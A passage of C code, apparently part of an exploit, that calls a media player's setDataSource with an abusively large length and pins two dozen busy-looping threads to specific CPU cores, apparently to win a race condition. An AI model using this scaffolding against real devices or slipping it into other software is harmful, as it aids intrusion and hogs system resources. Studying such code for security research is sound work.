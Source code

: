```
	return mediaPlayer->setDataSource(fd, 0, 0x7ffffffffffffffL);
}

int getCores() {
    	return sysconf(_SC_NPROCESSORS_CONF);
}

void* fillCpu(void *arg)
{
        int index = *(int *)arg;
	cpu_set_t mask;
    	CPU_ZERO(&mask);
    	CPU_SET(index, &mask);
	pid_t pid = gettid();
	syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
	//printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
	while (!fillFlag)
	{
		index++;
	}

        return arg;
}

void fillOtherCpu()
{
	int cores = getCores();
	printf("[+] cpu count:%d\n", cores);
	pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
	pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
	pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
	int cpu1 = 0;
	int cpu2 = 2;
	int cpu3 = 3;
	pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);

	pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);

	pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
	sleep(10);
}

```